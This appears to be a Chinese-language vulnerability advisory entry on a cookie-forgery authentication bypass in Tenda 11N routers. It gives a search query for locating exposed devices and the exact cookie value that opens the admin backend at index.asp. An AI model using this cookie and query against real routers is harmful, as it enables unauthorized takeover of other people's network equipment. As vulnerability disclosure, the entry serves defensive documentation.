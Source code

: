# Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

<a-checkbox checked>Tenda 11N无线路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TENDA-11N无线路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646009335970-22d7f17e-3801-4d3b-bf5a-e7fa2b17749f.png)

添加Cookie, 访问 index.asp 进入后台

```javascript
admin:language=cn
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646009376481-0c885988-16f4-4a01-bd46-5d126a6b9d8d.png)



